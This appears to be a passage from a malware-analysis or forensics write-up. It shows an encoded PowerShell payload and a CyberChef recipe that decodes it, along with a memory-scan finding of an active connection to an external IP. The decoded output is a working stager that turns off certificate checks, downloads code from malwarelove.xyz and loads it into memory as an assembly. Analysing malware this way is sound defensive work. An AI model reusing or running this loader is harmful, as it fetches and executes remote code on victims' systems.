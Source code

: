 ```
AGgAagB3AFEAWABEAHgAQwB4AEYASgB0ADkAQQBL
ADUANwBOAFMAMgBzAGgAbABBACsANABvACsAcwA3
ADcAbwBtAGMAOQBzAG4ASgBoADUANwBPACsAUgBL
AHoAYgBKAGUASgBrAHIAMwBUAEUAYwBQAHQATAB2
AHcAWQBXAEEAVABnAGMANwAwAEgAegAzADkAegBZ
AC8AYwArADQAZQBmAHQALwBUAGsAMwA4AHUAUABQ
ACsAagBtADAAOQBjAFgAMwAyAC8AUAAvADkAUAA1
ADgAdgBXADMAVgB3ACsAbgBFADUAMwAvAEEAQQA9
AD0AJwAgACkALABbAEkATwAuAEMAbwBNAFAAcgBl
AFMAcwBJAG8AbgAuAEMATwBNAFAAUgBlAHMAUwBJ
AG8ATgBtAG8AZABFAF0AOgA6AGQARQBDAE8AbQBw
AHIAZQBzAFMAIAApACkALAAgAFsAVABlAHgAVAAu
AEUATgBDAG8AZABJAG4AZwBdADoAOgBhAFMAYwBJ
AGkAKQAgACkALgByAGUAQQBkAFQATwBlAG4AZAAo
ACAAKQAgAHwAIAAuACAAKAAgACQAUwBIAGUATABs
AEkARABbADEAXQArACQAcwBoAGUATABsAEkAZABb
ADEAMwBdACsAJwBYACcAKQA=
```

**CyberChef Recipe:**
```
From_Base64('A-Za-z0-9+/=',true)
Remove_null_bytes()
Regular_expression('User defined','[a-zA-Z0-9+/]{30,}',true,true,false,false,false,false,'List matches')
From_Base64('A-Za-z0-9+/=',true)
Raw_Inflate(0,0,'Adaptive',false,false)
Remove_whitespace(true,true,true,true,true,false)
Regular_expression('User defined','[0-9]{2,4}',true,true,false,false,false,false,'List matches')
From_Decimal('Line feed',false)
Find_/_Replace({'option':'Simple string','string':''+''},'',true,false,true,false)
Generic_Code_Beautify()
```

**Decoded Output:**
```
[Net.ServicePointManager]::ServerCertificateValidationCallback = {
$true
};
$wc = New - Object System.Net.WebClient;
$wc.Headers.Add(('User-Agent'), ('Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0'));
$wc.Proxy = [System.Net.WebRequest]::DefaultWebProxy;
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
$a = (New - Object net.webclient).DownloadData(('https://malwarelove.xyz/index-en-US.html'));
$b = [System.Reflection.Assembly]::Load($a);
```

---

**Finding 2:** Active connection in memory to 3.132.192.16:443

**Found in Memory (Netscan):**
```
0x9a075bc729d0 TCPv4 172.16.50.130:50067 3.132.192.16:443 ESTABLISHED -1
```

---